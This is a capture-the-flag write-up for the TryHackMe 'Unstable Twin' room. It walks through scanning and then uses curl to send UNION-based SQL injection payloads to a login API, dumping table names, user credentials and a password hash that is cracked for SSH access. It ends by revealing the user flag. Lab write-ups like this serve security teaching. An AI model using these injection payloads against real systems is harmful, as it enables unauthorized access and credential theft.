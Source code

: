 ```yaml
---
layout: post
title:  "Unstable Twin"
date:   2021-20-05 17:06:25
categories: Pentesting
---
```


Prompt:https://tryhackme.com/room/unstabletwin

# Solution

Starting with the usual Nmap scan, we discover that only 2 ports are open.

```py
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
|_  256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
80/tcp open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1

```
On running the gobuster scan we get 2 directories /api (with status 404) and /info (with status 200) which tells us that the login API needs to be called with username and password on visiting /info .

To get the build version we send a request to /info 

```py
curl -i -s http://10.10.196.16/info

```
However it returned 1.3.6-final (which did not turn out to be the correct answer),so I thought it is some machine error and so I sent the request again and (much to my bewilderment) got a different build version.

```
1.3.4-dev
```
After this I sent a request to the login API with an arbitrary username and password as directed in /info and got the result that the credentials are incorrect

```py
curl -XPOST 'http://10.10.196.16/api/login' -d 'username=admin&password=admin'
"The username or password passed are not correct."
```
The box has an SQLi tag so i decided to try exploiting it in that direction and tried to list our the table names in the sqlite_master database. 
Basically sqlite_master is the master listing of all database objects in the database and the SQL used to create each object. 
The sqlite_master contains the following columns:

```
The sqlite_master table contains the following columns:

Column Name	Description
type	        The type of database object such as table, index, trigger or view.
name	        The name of the database object.
tbl_name	The table name that the database object is associated with.
rootpage	Root page.
sql	        SQL used to create the database object.

```
So I basically have to display the information stored in tbl_name column.
Here's my request:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,group_concat(tbl_name) from sqlite_master where type='table' -- -&password=admin"



[
  [
    1, 
    "users,sqlite_sequence,notes"
  ]
]

```
Now sqlite_sequence is one of the default tables present in SQL ,so it is not probably not important right now.
So I list out the data in the **users** table :

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1' UNION SELECT username,password from users -- -&password=admin"


[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]

```

But Mary Anns' password is not listed here so i proceed to similarly list the information in the **notes** table:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,notes from notes -- - -- -&password=admin"



[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422
    cf984324f645b84427343f4\n"
  ]
]

```
Seems like a hash,right? So I proceed to crack the hash online using [Crackstation](https://crackstation.net/) and get the SSH password.

```
Experiment
```
After this I log in via SSH and retieve the User Flag.

***User Flag : THM{Mary_Ann_notes}***

